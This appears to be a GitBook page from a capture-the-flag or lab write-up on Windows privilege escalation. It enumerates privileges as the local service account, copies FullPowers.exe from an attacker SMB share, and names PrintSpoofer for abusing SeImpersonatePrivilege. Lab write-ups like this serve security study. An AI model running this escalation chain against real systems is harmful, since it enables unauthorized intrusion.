 ### Local enumeration

whoami /priv

```
whoami
nt authority\local service

C:\wamp\www>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

```

* When you are nt authority\local service, you can extract default privilege sets in order to escalate privileges
* This tool can speed up that process

{% embed url="https://github.com/itm4n/FullPowers" %}
GitHub Repository
{% endembed %}

### PrivEsc vector

```
nt authority\local service
```

This is vulnerable

Transfer the binary to the target

```
copy \\192.168.49.75\FullPowers.exe
```

Run FullPowers.exe

```
FullPowers.exe
```

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption><p>We now have SeImpersonatePrivilege</p></figcaption></figure>

* I know from experience that this is an OG priv esc method

### SeImpersonatePrivilege

{% embed url="https://github.com/dievus/printspoofer" %}
GitHub Repository
{% endembed %}

Transfer exploit to target

Execute exploit

## Proofs

<figure><img src="../../../.gitbook/assets/image (11) (3) (1).png" alt=""><figcaption></figcaption></figure>
